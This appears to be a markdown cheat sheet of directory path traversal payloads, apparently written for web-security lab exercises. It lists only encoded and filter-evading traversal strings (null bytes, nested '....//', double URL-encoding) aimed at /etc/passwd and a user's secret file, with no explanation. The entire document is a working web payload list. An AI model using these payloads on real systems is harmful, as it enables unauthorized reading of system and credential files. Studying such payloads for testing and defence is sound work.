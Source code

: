 # Directory Path Traversal  

```
/etc/passwd
```
```
../../../etc/passwd%00.png
```
```
....//....//....//etc/passwd
```
```
..%252f..%252f..%252fetc/passwd
```
```
/var/www/images/../../../etc/passwd
```
```
../../../etc/passwd%00.png
```
```
../../../etc/passwd
```
```
/home/carlos/secret
```
```
../../../home/carlos/secret%00.png
```
```
....//....//....//home/carlos/secret
```
```
....//....//....//....//home/carlos/secret
```
```
..%252f..%252f..%252fhome/carlos/secret
```
```
%252e%252e%252fhome%252fcarlos%252fsecret
```
```
/var/www/images/../../../home/carlos/secret
```
```
../../../home/carlos/secret%00.png
```
```
../../../home/carlos/secret
```